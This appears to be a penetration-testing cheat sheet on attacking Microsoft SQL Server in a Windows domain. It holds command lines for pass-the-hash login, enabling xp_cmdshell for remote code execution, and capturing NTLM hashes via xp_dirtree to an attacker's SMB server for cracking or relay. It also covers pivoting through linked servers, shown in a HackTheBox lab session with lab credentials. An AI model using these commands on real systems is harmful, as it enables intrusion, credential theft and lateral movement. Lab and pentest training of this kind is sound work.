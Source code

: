 # Microsoft SQL service (port 1433)

If the Domain controller or any other windows machine have accessible Microsoft SQL service through the standar port 1433, or any custom port accessible, you can use a domain user credentials (or local user credentials) to login. In some cases this can lead to RCE through "xp_cmdshell" function, ntlm authentication relay through "xp_dirtree" function or get the NTLM v2 hash from the user running the service, enumerate databases, arbitrary querys, and migrate to other computers if are connected through "links".

You can login into the service using mssqlclient.py from impacket suite:

`mssqlclient.py <domain>/<user>:'<password>'@<ip>`

Pass-the-hash: `mssqlclient.py <domain>/user:@<ip> -hashes '<optional LM hash>:<NT hash>'`

Kerberos auth: `sudo rdate -n <ip> ; <domain>/<user>:'<password>'@<machine>.<domain> -k`

<br>

### Try an RCE:

Whatever user you loged in, try to use "xp_cmdshell" command to execute a command inside that machine:

`xp_cmdshell "whoami"`

If this fails for any reason (probably) try to enable this function with:

`enable_xp_cmdshell`

`reconfigure`

`xp_cmdshell "whoami"`

NOTE: Remember that 'sa' user is more likely to be able to run xp_cmdshell in the machine

<br>

### NTLM relay / hash grabbing

You can also try to get ntlmv2 hash for the user which is running the server. Then you can crack offline that hash to get credentials, or (if you suspect that credentials could have admin rights against another domain machine) you can use "ntlmrelayx" tool to relay the credentials and get RCE (or whatever) to second machine.

From your attacking machine: `smbserver.py -smb2support share .` (also "responder" tool will work)

Inside mssqlclient.py session: `xp_dirtree \\<your_smbserver_ip>\whatever`

For NTLM relay look for "responder" and "ntlmrelayx" functionalitys.

<br>

### Database enumeration:

You can also make simple direct querys to enumerate the machine, users and sql process to get information:

Get all database: `EXEC sp_databases;` or `SELECT name FROM sys.databases;` "master", "tempdb", "model", "msdb" databases are coming from default.

Use specific database: `USE <database name>;`

Get tables from current database: `SELECT name FROM sys.tables;` or `SELECT * FROM information_schema.tables;`

Get content from specific table: `SELECT * FROM <table name>;`

Get columns from specific table: `SELECT name FROM sys.columns WHERE object_id = OBJECT_ID('<table name>');`

Enumerate users and roles: `SELECT name FROM sys.syslogins;`


Other information you can enumerate from the machine:
```
SELECT @@VERSION;               -- Sql server version
SELECT SERVERPROPERTY('MachineName');  -- Hostname
SELECT SERVERPROPERTY('Edition');      -- Edition (Express, Standard, etc.)
SELECT SERVERPROPERTY('InstanceName'); -- Instance name
SELECT SERVERPROPERTY('ProductLevel'); -- Patch level

SELECT name, type_desc FROM sys.server_principals;   -- Server users
SELECT name, type_desc FROM sys.database_principals; -- Database users

SELECT * FROM sys.dm_exec_sessions;       -- Active sessions and connections
SELECT * FROM sys.dm_exec_connections;

SELECT * FROM sys.dm_exec_requests;       -- SQL process


```

<br>

### Links:

```diff
- Warning: This option might not be available if you are using an old version of imapcket.
Use v0.11 or above. In kali use command `impacket-mssqlclient`
```

When mssql service is conected to multiple machines (AD environment is a good example) you can access to this machines through mssqlclient.py. To do it just use `enum_links` option to see the "Linked servers" availables. Select any with `use_link "<name of linked server>"`. Now you are against a diferent machine, and you can try again xp_cmdshell or any step above.

Example:

```
┌──(xavi㉿kali)-[~/tools]
└─$ impacket-mssqlclient darkzero.htb/john.w:'RFulUtONCOL!'@10.10.11.89 -windows-auth 
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01): Line 1: Changed database context to 'master'.
[*] INFO(DC01): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (160 3232) 
[!] Press help for extra shell commands
SQL (darkzero\john.w  guest@master)> enum_links


SQL (darkzero\john.w  guest@master)> enum_links
SRV_NAME            SRV_PROVIDERNAME   SRV_PRODUCT   SRV_DATASOURCE      SRV_PROVIDERSTRING   SRV_LOCATION   SRV_CAT   
-----------------   ----------------   -----------   -----------------   ------------------   ------------   -------   
DC01                SQLNCLI            SQL Server    DC01                NULL                 NULL           NULL      

DC02.darkzero.ext   SQLNCLI            SQL Server    DC02.darkzero.ext   NULL                 NULL           NULL      

Linked Server       Local Login       Is Self Mapping   Remote Login   
-----------------   ---------------   ---------------   ------------   
DC02.darkzero.ext   darkzero\john.w                 0   dc01_sql_svc   


SQL (darkzero\john.w  guest@master)> use_link "DC02.darkzero.ext"
SQL >"DC02.darkzero.ext" (dc01_sql_svc  dbo@master)>
```









<br>

Other interesting articles: https://one2bla.me/Breach-operations/attacking-mssql

<br>

Recomended labs to practice:
- Darkzero (Hackthebox)
- Signed (Hackthebox)
- Querier (Hackthebox)

